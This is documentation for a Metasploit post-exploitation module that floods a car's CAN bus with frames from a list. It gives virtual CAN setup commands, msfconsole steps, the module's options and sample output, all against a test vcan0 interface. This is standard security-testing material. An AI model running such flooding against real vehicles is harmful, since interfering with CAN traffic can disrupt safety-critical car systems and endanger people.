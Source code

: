 ## Introduction

CAN Flood is a post-exploitation module that floods a CAN interface for a number of rounds. Both the interface and the number of rounds are to be provided as inputs. An example list of frames also is part of the inputs, and sources the flooding at each round. The module therefore is general as it is parametric in the frame list.

## Verification Steps

First, start up a virtual CAN bus:

1. `sudo modprobe can`
2. `sudo modprobe vcan`
3. `sudo ip link add dev vcan0 type vcan`
4. `sudo ip link set up vcan0`

Then do the thing:

5. Start `msfconsole`
6. `use auxiliary/server/local_hwbridge`
7. `set uripath trycanbus`
8. `run`
9. `use auxiliary/client/hwbridge/connect`
10. `set targeturi trycanbus`
11. `run`
12. `use post/hardware/automotive/can_flood`
13. `set canbus vcan0`
14. `set session 1`
15. `run`

## Options

**CANBUS**
Determines which CAN interface to use.

**FRAMELIST**
Path of the file that contains the list of frames. Default is "/usr/share/metasploit-framework/data/wordlists/can_flood_frames.txt".

**ROUNDS**
Number of executed rounds. Default is 200.

**SESSION**
The session to run this module on.

## Scenarios

The user must know a list of frames that generate an effect on the car. This is because the module is general as it is parametric in the frame list.
You can test the module by setting a virtual CAN interface and then execute the commands, thus obtaining the underlying output:

```
msf5 > use auxiliary/server/local_hwbridge
msf5 auxiliary(server/local_hwbridge) > run
[*] Auxiliary module running as background job 0.

[*] Using URL: http://0.0.0.0:8080/trycanbus
[*] Local IP: http://10.0.2.15:8080/trycanbus
[*] Server started.
msf5 auxiliary(server/local_hwbridge) > use auxiliary/client/hwbridge/connect
msf5 auxiliary(client/hwbridge/connect) > set targeturi trycanbus
targeturi => trycanbus
msf5 auxiliary(client/hwbridge/connect) > run

[*] Attempting to connect to 127.0.0.1...
[*] Hardware bridge interface session 1 opened (127.0.0.1 -> 127.0.0.1) at 2019-03-20 03:17:55 -0400
[+] HWBridge session established
[*] HW Specialty: {"automotive"=>true}  Capabilities: {"can"=>true, "custom_methods"=>true}
[!] NOTICE:  You are about to leave the matrix.  All actions performed on this hardware bridge
[!]          could have real world consequences.  Use this module in a controlled testing
[!]          environment and with equipment you are authorized to perform testing on.
[*] Auxiliary module execution completed
msf5 auxiliary(client/hwbridge/connect) > use post/hardware/automotive/can_flood 
msf5 post(hardware/automotive/can_flood) > set canbus vcan0
canbus => vcan0
msf5 post(hardware/automotive/can_flood) > set session 1
session => 1
msf5 post(hardware/automotive/can_flood) > run

[*]  -- FLOODING -- 
[*] Post module execution completed
```
